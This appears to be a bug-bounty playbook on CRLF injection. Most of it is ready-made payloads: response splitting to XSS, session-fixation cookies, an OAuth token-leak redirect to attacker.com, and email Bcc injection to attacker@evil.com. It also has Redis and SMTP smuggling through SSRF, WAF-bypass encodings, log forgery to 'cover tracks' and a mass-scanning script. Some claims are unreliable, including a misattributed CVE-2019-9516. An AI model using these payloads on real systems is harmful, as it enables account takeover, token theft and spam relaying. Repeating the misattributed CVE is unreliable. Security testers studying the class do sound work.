


*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [⬅️ Layer 2: Element Testing](../../Element%20Testing%20Checklist.md) | [⬅️ Layer 3: Vulnerability Staging](../../Vulnerability_Staging.md)*
---

# CRLF Injection : Master Playbook

> **Goal:** Injecting "New Line" characters (`\r\n`) into HTTP headers to split the response, inject cookies, or smuggle entire protocols.
> **Triggers:** Parameters reflected in headers (Location, Set-Cookie), custom debug headers, user-controlled paths, or SSRF-to-internal services.
> **Context:** CRLF is like printing a fake barcode in the middle of a shipping label. When the postal worker's scanner hits that barcode, it thinks the label has ended and starts reading your custom "deliver to this secret address" instructions instead of the original destination.
> **Hacker Mindset:** "HTTP is a text-based protocol that relies on new lines to separate instructions. If I can control where a new line starts, I can write my own instructions that the server or browser will execute as legitimate."

---

## 0. Exploit Selection Search Tree
*Use this logical search tree to decide which CRLF pathway to prioritize:*



1.  **Is your input reflected in a `Location` header (used for redirects)?**
    *   **Yes** → Use **[[#5.2 Gold: Open Redirect Escalation]]**.
2.  **Is your input reflected in a `Set-Cookie` header?**
    *   **Yes** → Use **[[#5.3 Gold: Session Fixation via Cookie Injection]]**.
3.  **Is your input reflected in a generic or custom header? Can you split the body?**
    *   **Yes** → Use **[[#5.1 Gold: HTTP Response Splitting & XSS]]**.
4.  **Are you testing an SSRF feature that ignores the path but decodes CRLF?**
    *   **Yes** → Use **[[#6.1 Gold: SSRF to Internal Protocol Smuggling (Redis/Memcached)]]** (Redis/SMTP).
5.  **Is the response being cached? Can you split the response for everyone?**
    *   **Yes** → Use **[[#6.3 Gold: Web Cache Poisoning via Response Splitting]]**.
6.  **Is your `%0d%0a` payload being blocked by a WAF?**
    *   **Yes** → Pivot to **[[#7. WAF Bypass & Encodings (Heritage Matrix)]]** (Unicode/Double Encode).
7.  **Can you smuggle text-encoded protocols like SMTP or Redis via an SSRF CRLF?**
    *   **Yes** → Use **[[#6.1 Gold: SSRF to Internal Protocol Smuggling (Redis/Memcached)]]**.
8.  **Can you use Response Splitting to permanently poison a CDNs cache?**
    *   **Yes** → Use **[[#6.3 Gold: Web Cache Poisoning via Response Splitting]]**.

---

## 1. Professional Methodology: Summary Table

| Attack Vector | Beginner "Why" | Detection Indicator | Success Confirmation | Bounty Impact |
| :--- | :--- | :--- | :--- | :--- |
| **Response Splitting**| Breaking the page in half. | `\r\n\r\n` injections. | XSS executes from header. | **High ($2k+)** |
| **Session Fixation** | Forcing a specific key. | `Set-Cookie: session=...` | Victim logs into your ID. | **Medium ($800+)** |
| **Protocol Smuggling**| Speaking hidden languages. | `\r\n` in SSRF URL. | Redis/SMTP commands run. | **Critical ($5k+)** |
| **Open Redirect** | Changing the signpost. | `Location: attacker.com`. | Victim is sent to phish. | **Low/Medium ($200+)** |
| **Cache Poisoning** | Poisoning the source. | Split response in cache. | XSS served to all users. | **Critical ($5k+)** |

---

## 2. Why It Happens: Core Logic

### 2.1 First-Principles: What is CRLF?
HTTP is a "Text-Based" protocol. It relies on specific hidden characters to know when one header ends and another begins.
*   **CR** (Carriage Return): `\r` or `%0d`. It means "move the cursor to the start of the line."
*   **LF** (Line Feed): `\n` or `%0a`. It means "move to the next line."
*   **The DNA of HTTP**: In the HTTP protocol, every header must end with `\r\n`. If you see **two** of these in a row (`\r\n\r\n`), the server thinks the headers are finished and the "Body" (the HTML) has started.

#### 2.1.1 The Visualized Splitting Flow


### 2.2 Diagnostic Checklist (Hunter Questions)
Ask yourself these questions while testing any input:
*   [ ] Is my input reflected in the **Response Headers**? (Check the "Headers" tab in Burp).
*   [ ] Does the application perform redirects? (`301`, `302` status codes).
*   [ ] Can I control the value of a `Set-Cookie` header (e.g., a "Preferences" or "Theme" cookie)?
*   [ ] Does the backend protocol (H2 vs H1.1) change between the WAF and the server?
*   [ ] Are custom headers like `X-Custom`, `Referer`, or `Host` being reflected?

---

## 3. Detection & Identification (Heritage Mode)

### 3.1 Injection Points (The Search List)
*   **Redirection Parameters**: `?url=`, `?next=`, `?redirect_to=`.
*   **Path Segment Reflection**: `https://site.com/view/[USER_INPUT]`. (Heritage Payload: `/%0d%0aX-Injected:true`)
*   **Query Parameters**: `?redirect=%0d%0aX-Injected:true`
*   **Custom Headers**: Applications that echo your username or ID in a header for debugging (e.g., `X-Custom`).
*   **Metadata Headers**: `User-Agent`, `Referer`, `Host` headers.
*   **Cookie values**: Any cookie reflected back in a header.

### 3.2 Initial Detection Probe
The "Golden Rule" of CRLF detection:
1.  **Inject**: `%0d%0aX-CRLF-Test:Pwned`
2.  **Verify**: Look at the raw response headers in Burp Suite.
3.  **Success**: If you see `X-CRLF-Test: Pwned` on its own line in the headers, you're in.

> **Beginner Note**: In Burp Repeater, you can often see the injected header highlighted in green if it follows the standard format. If it's buried, use the `Search` bar in the Response tab.

---

## 4. The CRLF Toolbox

*   **Burp Suite Repeater**: Best for manual verification.
*   **Burp Intruder**: Essential for fuzzing different newline encodings.
*   **CyberChef**: For converting payloads between URL, Double-URL, and Unicode.
*   **Dnslog.cn / Burp Collaborator**: For OAST-based smuggling.

---

## 5. Core Exploitation (Gold Standard)

### 5.1 Gold: HTTP Response Splitting & XSS
This is the "Holy Grail" of CRLF. You terminate the headers and inject an HTML body.
*   **The Logic**: You need two CRLFs (`\r\n\r\n`) to tell the browser "Headers are done, here is the website."
*   **Payload (Heritage)**: 
    ```
    %0d%0aContent-Length:35%0d%0a%0d%0a<script>alert('CRLF_to_XSS')</script>
    ```
*   **Advanced Bypass Payload**:
    ```
    %0d%0aContent-Length:50%0d%0aX-XSS-Protection:0%0d%0a%0d%0a<script>alert(1)</script>
    ```
> **Beginner Note**: You must provide a `Content-Length` so the browser knows exactly how many characters of your injected script to read. Disabling `X-XSS-Protection` via header injection ensures the browser won't block your script.

### 5.2 Gold: Open Redirect Escalation
A standard P4 bug, but still valuable for phishing.
*   **Direct Injection**: `?next=%0d%0aLocation:%20http://attacker.com`
*   **Why it works**: The browser sees two `Location` headers and usually picks the last one (or the first one, depending on the browser).

### 5.3 Gold: Session Fixation via Cookie Injection
Forcing a session on a user so you can log in as them later.
*   **Payload**:
    ```
    %0d%0aSet-Cookie:session=ATTACKER_SESSION;Domain=.target.com;Path=/;HttpOnly
    ```
*   **Goal**: If the victim visits the site, their browser stores your session ID. If they then log in, and the site doesn't "rotate" the ID, you are both logged into the same account.

### 5.4 Gold: CORS Bypass via Header Injection
Injecting headers to allow cross-origin data theft.
*   **Payload**: `%0d%0aAccess-Control-Allow-Origin:*`
*   **Impact**: Enables cross-origin reads from any domain, bypassing the Same-Origin Policy (SOP).

---

## 6. Advanced Specialist Vectors (The Mastery)

### 6.1 Gold: SSRF to Internal Protocol Smuggling (Redis/Memcached)
If you have an SSRF that only talks HTTP, use CRLF to speak "Redis."
*   **Payload (in SSRF URL)**:
    ```
    http://127.0.0.1:6379/%0d%0aSET%20user:admin:permissions%20all%0d%0aQUIT
    ```
*   **Result**: The SSRF client sends the CRLF to the Redis port. Redis ignores the HTTP junk and executes the `SET` command.

### 6.2 Gold: HTTP/2 to H1.1 Request Smuggling
Modern WAFs use HTTP/2, but backends often use H1.1.
*   **The Flaw**: H2 allows "Newlines" inside pseudo-headers (like `:path`). 
*   **The Attack**: Inject `\r\n` into a `:path` header. When the WAF converts this to H1.1, the `\r\n` becomes a physical newline in the raw H1.1 request, allowing you to smuggle a second request.

### 6.3 Gold: Web Cache Poisoning via Response Splitting
*   **Method**: Use a "Cache Key" (like a specific URL) and inject your Splitting payload. By terminating headers and injecting a complete second response, you can trick the proxy into storing your malicious response permanently.
*   **Heritage Note**: Use `Content-Encoding: identity` for stored XSS that bypasses content-type restrictions.

### 6.4 Gold: SMTP / Email Header Injection
*   **Payload**: `subject=Hello%0d%0aBcc:attacker@evil.com`
*   **Impact**: You've just turned their official contact form into a spam-sending bot or leaked confidential email threads.

### 6.5 Gold: Log Injection
*   **Payload**: `?user=admin%0d%0a[2026-06-01 10:00:00] Password changed successfully for ADMIN`
*   **Impact**: Cover tracks or poison SIEM analysis alerts.

---

## 7. WAF Bypass & Encodings (Heritage Matrix)

If `%0d%0a` is blocked, setup an Intruder attack on the parameter:

| Encoding | Payload | Heritage Note |
| :--- | :--- | :--- |
| **Standard** | `%0d%0a` | Basic \r\n |
| **LF only** | `%0a` | Some parsers accept only LF |
| **CR only** | `%0d` | Rarely works but worth a quick check |
| **Double Encode** | `%250d%250a` | Bypasses simple URL decoding filters |
| **UTF-8 Unicode** | `%E5%98%8A%E5%98%8D` | Advanced multi-byte normalization |
| **Line Separator** | `%E2%80%A8` | Unicode U+2028 |
| **Next Line** | `%C2%85` | Unicode U+0085 |

---

## 8. Workflow (Standard Procedure - Heritage Restored)

1.  **Phase 1: Identify Injection Points**
    - Find parameters reflected in response headers (redirects, `Set-Cookie`, custom headers).
    - Test with `%0d%0aX-Injected:true` in URL path and query parameters.
2.  **Phase 2: Escalation**
    - Try XSS, Open Redirect, Session Fixation, CORS Bypass payloads.
    - Test request smuggling via CRLF in keep-alive connections.
3.  **Phase 3: WAF Bypass**
    - If `%0d%0a` is filtered, cycle through Unicode alternatives.
    - Try encoding tricks and partial injection (`%0d` only).

---

## 9. Prevention (For Developers)

*   **Use Modern Frameworks**: Most modern frameworks (Express, Spring, Laravel) automatically strip CRLF from headers.
*   **Sanitize All User Input**: Explicitly remove `\r` and `\n` before placing input into a `Location` or `Set-Cookie` call.
*   **Use Secure Libraries**: Use high-level redirect functions rather than manual header manipulation.

---

## 10. Parser Discrepancies & Smuggling Architectures (The Singularity)

### 10.1 Apex: RFC 7230 Line Folding & Space Smuggling
HTTP/1.1 allows (or used to allow) "Line Folding" where a header value continues on the next line if the newline is followed by a space or tab.
*   **The Discrepancy**: 
    1.  **WAF/Proxy**: Sees `Header: Value\r\n [Space]Injected: payload` as one single header.
    2.  **Legacy Backend (Tomcat/WebLogic)**: Sees `\r\n` and assumes the header has ended, treating the space-prefixed line as a new (or malformed) header.
*   **Attack Vector**: Injecting headers that are "invisible" to the WAF but "alive" to the backend.

### 10.2 Apex: HTTP/3 QPACK Compression Nuances
Unlike H1.1 (text) or H2 (HPACK), HTTP/3 uses **QPACK**.
*   **Master Hack**: If you can inject a CRLF into a field that is subsequently indexed or compressed, you may be able to "decompress" a second header into the stream.
*   **Target**: High-entropy fields like `User-Agent` or custom session tokens that are reflected in internal headers.

### 10.3 Apex: Underscore vs. Hyphen Discrepancy
*   **Nginx**: Drops headers with underscores by default (`underscores_in_headers off`).
*   **Tomcat/Apache**: Often accepts them.
*   **The Chain**: Use CRLF to inject a header like `X_Custom_Header: true`. Nginx lets it through (thinking it's noise or dropping it), but the backend parses it. Combine this with CRLF to bypass WAF rules that only look for hyphenated standard headers.

---

## 11. Language-Specific CVEs & Engine Flaws (Architectural Mastery)

### 11.1 Apex: Engine-Specific CVEs (Python/Node/Go)
Sometimes the bug isn't in the code, but in the **language itself**.

| Engine | CVE / Flaw | Mechanism |
| :--- | :--- | :--- |
| **Python** | **CVE-2019-9740** | `urllib` failed to strip CRLF from the URL path. An attacker could pass `%0d%0a` in a `urlopen()` call to perform SSRF-to-SMTP or Redis smuggling. |
| **Node.js** | **_http_outgoing** | Historical flaws allowed `Set-Cookie` values to contain raw newlines if passed as an array, bypassing standard string-check filters. |
| **Go** | **net/http** | Older versions had discrepancies in how they parsed `Transfer-Encoding` when combined with CRLF, enabling Request Smuggling. |

### 11.2 Apex: The "Internal Reflection" Sink
*   **The Scenario**: A backend Java service (Spring) takes a user ID and passes it to an internal `RestTemplate` call.
*   **The Bug**: If the internal call doesn't sanitize the ID, your CRLF detonates *inside* the internal network, even if the public-facing edge WAF is perfect.

---

## 12. Advanced Master-Chains (The Zenith Vectors)

### 12.1 Zenith: OAuth Code/Token Theft
1.  **Find**: A CRLF in an OAuth `authorize` endpoint or a redirector used in the flow.
2.  **Inject**: `%0d%0aLocation:%20https://attacker.com/callback?leak=`
3.  **Result**: The user is redirected to the attacker's site. Because it's an OAuth flow, the `code` or `access_token` is appended to the attacker's URL as a fragment or query param.

### 12.2 Zenith: Web Cache Deception via Fat GET
1.  **Inject**: `GET /api/user/profile%0d%0aContent-Type: text/html%0d%0a.css HTTP/1.1`
2.  **The Trick**: You are making the URL end in `.css` (to trigger the CDN to cache it) but using CRLF to force the backend to see it as a profile request with a specific Content-Type.
3.  **Outcome**: The CDN caches the victim's private JSON profile as a public `.css` file. Anyone can then browse to that `.css` URL and see the PII.

### 12.3 Zenith: SMTP Pipelining Masterclass
Standard CRLF injects a header. **Apex CRLF** injects an entire SMTP conversation.
*   **Payload**: 
    ```
    %0d%0aDATA%0d%0aSubject: Pwned%0d%0a%0d%0aSent via CRLF Pipelining%0d%0a.%0d%0aQUIT%0d%0a
    ```
*   **Impact**: If the SSRF/CRLF hits an internal SMTP server (Port 25), you can send arbitrary emails to any internal or external address, effectively turning the server into a spam bot or phishing origin.

---

## 13. High-Impact Historical War Stories

### 13.1 The "Invisible Split" (Unicode Normalization)
*   **Case**: A site used a WAF that blocked `%0d%0a`. 
*   **Bypass**: The hunter used `%E5%98%8A` (A multi-byte character). The WAF saw it as a valid UTF-8 character and let it pass. However, the backend database *normalized* the character back to a carriage return before sending it to the response builder. 
*   **Result**: $5,000 Bounty for a "WAF-Proof" CRLF to XSS.

### 13.2 The "Sleeper SSRF" (Background Chaining)
*   **Case**: A webhook tester allowed users to provide a callback URL. The URL was validated at the edge.
*   **Bypass**: The hunter used a URL-encoded CRLF. The edge validator saw it as a malformed (but safe) URL. Hours later, a background worker tried to "ping" the URL. The `HttpClient` used by the worker parsed the CRLF, splitting the request and talking to a local Redis instance.
*   **Result**: Internal RCE via "Silent" CRLF.

---

## 14. Limitless: Automation Arsenal (OAST Pipeline)

### 14.1 Limitless: Automation Arsenal (OAST Pipeline)
To find CRLF at scale, you need to automate the detection of "Blind" reflections using Out-Of-Band (OAST) tools like Burp Collaborator or Interactsh.

#### 14.1.1 The "Search & Destroy" Python Skeleton
```python
import requests
import sys

# Usage: python3 crlf_scan.py list.txt collaborator_url
def scan(target, collab_url):
    payloads = [
        "%0d%0aX-Injected-OAST: {0}",
        "%E5%98%8A%E5%98%8DX-Injected-OAST: {0}",
        "%250d%250aX-Injected-OAST: {0}",
        "%0aX-Injected-OAST: {0}"
    ]
    
    for p in payloads:
        injected_p = p.format(collab_url)
        try:
            # Test in Path
            requests.get(f"{target}/{injected_p}", timeout=5)
            # Test in Query
            requests.get(f"{target}/?redirect={injected_p}", timeout=5)
        except:
            pass

if __name__ == "__main__":
    with open(sys.argv[1], 'r') as f:
        for line in f:
            scan(line.strip(), sys.argv[2])
```
> **Beginner Note**: This script doesn't check the response. Instead, it waits for the *backend* to ping your Collaborator server with the injected header. If you see a hit, you've found a blind CRLF.

---

## 15. Limitless: WebSocket Handshake Hijacking

If a site uses WebSockets, the handshake `101 Switching Protocols` is vulnerable to CRLF.
*   **The Hack**: Inject a custom `Sec-WebSocket-Accept` header during the handshake.
*   **Impact**: You can trick the client or proxy into establishing an attacker-controlled WebSocket stream, bypassing WAF filters that only inspect HTTP/HTTPS traffic.
*   **Vector**: 
    ```
    %0d%0aSec-WebSocket-Accept: HSmrc0sMlYUkAGmm5OPpG2HaGWk=
    ```

---

## 16. Limitless: Headless Browser & PDF Generator Smuggling

Many modern backends use Headless Chrome or `wkhtmltopdf` to generate receipts or reports.
*   **The Exploit**: Supply a URL to the generator that contains encoded CRLF.
*   **The Chain**:
    1.  The PDF generator fetches: `http://internal-service/api/%0d%0aAuthorization: Bearer ADMIN_TOKEN`
    2.  The internal service sees the `Authorization` header and grants access.
    3.  The result (sensitive internal data) is rendered into the PDF and handed back to the attacker.
*   **Target**: Any "Download as PDF" or "Preview Site" feature.

---

## 17. Limitless: WAF Exhaustion (The Buffer Blowout)

Many WAFs have a maximum inspection limit (e.g., 8KB) to prevent DoS on the firewall itself.
*   **The Technique**: Send 8,000 bytes of "garbage" headers (`X-Trash: AAAA...`) followed by your CRLF payload.
*   **The Result**: The WAF stops inspecting after 8KB and lets the "tail" of the request pass through. The backend, however, reads the entire request and processes your injected CRLF.
*   **Precision Hack**: Position the `\r\n` exactly at the 8,192nd byte to split the request right where the WAF goes blind.

---

## 18. Zenith: Cloud-Native Gateway Discrepancies (AWS/Cloudflare)

### 18.1 Zenith: Cloud-Native Gateway Discrepancies (AWS/Cloudflare)
Modern cloud gateways often translate between HTTP versions or "clean" headers in ways that create new CRLF opportunities.

#### 18.1.1 AWS ALB HTTP/2 to H1.1 Translation
AWS Application Load Balancers (ALB) support HTTP/2 but often communicate with backends over HTTP/1.1.
*   **The Flaw**: If you inject a CRLF into an H2 pseudo-header (like `:path`), the ALB might not validate it strictly before translating it into a raw H1.1 request line.
*   **Weaponization**: 
    `GET /index.php?id=%0d%0aHost:%20internal.aws.local HTTP/2`
    The ALB translates this to a split H1.1 request, potentially talking to a different internal host than intended.

#### 18.1.2 Cloudflare Header Mangling
Cloudflare filters many standard CRLF sequences but has specific discrepancies in how it handles **Line Folding** (`\r\n `).
*   **The Bypass**: Some Cloudflare edge nodes will strip the space after the `\n`, effectively turning a "folded" header into a "split" header on the origin server.

---

## 19. Zenith: The "Golden Polyglot" CRLF Payload

When bulk fuzzing, use this "Universal Key" designed to break standard, double-encoded, and normalized filters simultaneously.

**The Polyglot**:
```text
%0d%0a%250d%250a%E5%98%8A%E5%98%8DX-Injected:true%0d%0aSet-Cookie:crlf=1;%0d%0aLocation:%20javascript:alert(1)//
```
*   **Mechanism**:
    *   `%0d%0a`: Standard CRLF.
    *   `%250d%250a`: Double-URL encoded (for 2-layer parsers).
    *   `%E5%98%8A%E5%98%8D`: Unicode Normalization (for WAF bypass).
    *   `X-Injected:true`: Detection header.
    *   `Set-Cookie`: Session fixation test.
    *   `Location`: Open redirect / XSS test.

---

## 20. Zenith: HTTP Response Smuggling (Client-Side Desync)

While Request Smuggling targets the server, **Response Smuggling** targets the **Browser**.

*   **The Concept**: Use CRLF to inject a complete second HTTP response into the stream.
*   **The Desync**: Tricking the browser's internal connection pool into thinking the *second* response belongs to a *different* request (e.g., a request for `google.com` or a sensitive internal domain).
*   **Impact**: Absolute DOM Takeover. You can force the browser to cache a malicious script for a domain you don't control, as long as it's served over the same persistent connection.

---

## 21. Zenith: Chunked Encoding Smuggling (TE Logic)

CRLFs are the fundamental delimiters of **Chunked Encoding**. By injecting them into at specific offsets, you can desync the "Length" calculations between proxies.

*   **The Technique**: Inject a CRLF into a chunk size field to hide a "tail" request.
*   **Payload Example**:
    ```text
    0\r\n
    \r\n
    Injected-Header: X
    ```
*   **The Desync**:
    1.  **WAF**: Reads the `0\r\n\r\n` and thinks the request body has ended.
    2.  **Backend**: May be configured to continue reading the "Post-0" bytes as a new request on the same persistent socket.
*   **Success Indicator**: Seeing the `Injected-Header` in a subsequent response on the same connection.

---

## 22. Zenith: HTTP/2 Header Name Injection (Binary Splitting)

In HTTP/2 (Binary), header *names* are treated as literal byte-arrays, meaning they can contain `\r` and `\n` without being parsed.

*   **The Vector (CVE-2019-9516)**:
    1.  Attacker sends an H2 frame where the **Header Name** is `X-Custom\r\nInjected: True`.
    2.  The Load Balancer (AWS ALB / Nginx) accepts this binary frame.
    3.  The Load Balancer translates the request to HTTP/1.1 for the legacy backend.
    4.  The translation process converts the binary H2 header to a text H1.1 line.
*   **The Detonation**:
    The backend receives: `X-Custom\r\nInjected: True: value`
    Because it is now a raw H1.1 stream, the backend parses the `\r\n` as a physical newline, successfully spliting the headers.

---

## 23. Resources (Heritage Restored)

*   [PortSwigger HTTP Response Splitting](https://portswigger.net/web-security)
*   [PayloadsAllTheThings - CRLF Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CRLF%20Injection)
*   [HackTricks - CRLF Injection](https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a)

---
---
*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [🔙 Back to Checklist](../../Element%20Testing%20Checklist.md) | [Next: Open Redirects >>](Open%20Redirects.md) >>*
